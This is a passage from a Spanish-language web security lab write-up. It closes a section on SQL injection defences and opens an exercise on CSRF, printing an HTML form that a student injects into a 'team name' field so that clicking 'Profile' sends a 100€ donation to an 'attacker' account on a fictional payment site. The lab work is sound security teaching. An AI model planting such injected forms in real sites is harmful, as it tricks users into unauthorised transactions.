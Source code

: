 - Auditorías de código: Realizar auditorías de código periódicas para identificar posibles vulnerabilidades de seguridad, incluyendo inyecciones SQL. Revisar regularmente el código de la aplicación en busca de prácticas inseguras de manejo de datos y corregirlas de manera proactiva.

- Implementación de firewalls de aplicaciones web (WAF): Configurar un WAF para filtrar y monitorear el tráfico HTTP/HTTPS entrante y saliente. Un WAF puede detectar y bloquear ataques de inyección SQL antes de que lleguen al servidor web, proporcionando una capa adicional de protección.


## Parte 5 - CSRF
Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: http://web.pagos/donate.php?amount=100&receiver=attacker, mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).

#### 5.a) 
Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

Primero, en uno de los usuarios, en el campo "team name" añadimos el siguiente código HTML: 

`form action="http://web.pagos/donate.php" method="GET">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
    <button type="submit">Profile</button>
</form>`

![alt text](image-5.png)
